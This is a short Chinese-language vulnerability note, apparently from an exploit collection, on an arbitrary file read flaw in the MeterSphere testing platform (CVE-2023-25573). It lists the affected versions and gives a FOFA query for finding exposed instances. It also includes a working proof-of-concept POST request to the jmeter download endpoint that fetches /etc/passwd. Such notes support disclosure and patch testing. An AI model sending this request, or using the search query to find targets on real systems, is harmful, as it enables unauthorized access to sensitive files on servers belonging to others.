 # Metersphere file 任意文件读取漏洞 CVE-2023-25573

## 漏洞描述

MeterSphere 是一站式开源持续测试平台, 涵盖测试跟踪、接口测试、UI 测试和性能测试等功能，全面兼容 JMeter、Selenium 等主流开源标准。

Metersphere file 接口存在任意文件读取漏洞，攻击者通过接口可以获取敏感文件压缩包。

## 漏洞影响

```
Metersphere <=2.6.2
```

## FOFA

```
body="Metersphere"
```

## 漏洞复现

登陆页面

![image-20230424163040952](images/image-20230424163040952.png)

验证POC

```
POST /api/jmeter/download/files
Content-Type: application/json

{"reportId":"pass","bodyFiles":[{"id":"aaa","name":"/etc/passwd"}]}
```

![image-20230424163512801](images/image-20230424163512801.png)